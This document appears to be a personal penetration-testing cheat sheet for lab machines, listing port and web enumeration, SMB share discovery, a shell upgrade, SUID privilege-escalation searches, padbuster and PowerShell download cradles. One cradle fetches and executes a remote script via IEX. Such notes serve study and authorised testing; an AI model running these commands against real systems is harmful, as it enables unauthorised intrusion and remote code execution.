# Penetration Testing Cheat Sheet
Captured learning notes

## Port scanning
```bash
nmap 10.10.10.150 -p-
nmap -sC -sV 10.10.150 -p80 -oA scan
```

## Web scan enumeration
```bash
dirhunt 10.10.10.150
gobuster -u 10.10.10.150 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

## Discover SMB shares
```bash
nmb lookup -A 10.10.10.150
smbclient -L \\fqdn -I 10.10.10.150 -N
```

## TTY/PTY
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

## Privilege Escalation with SUID
[Linux Privilege Escalation using SUID Binaries](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
```bash
find / -perm -u=s -type f 2>/dev/null
```
[Linux PrivEsc: Abusing SUID](https://www.gracefulsecurity.com/linux-privesc-abusing-suid/)
```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

## Download Methods
### PowerShell
```powershell
IEX(New-Object Net.WebClient).downloadString('https://10.10.10.150:80/script.ps1')
powershell "(New-Object System.Net.WebClient).downloadFile('http://10.10.10.150:8000/file.exe','file.exe')"
```

## Padbuster
```bash
padbuster http://10.10.10.150 string # -cookies auth=string -encoding 0
```

## Decode/Decrypt
```bash
echo string | base64 --decode
```
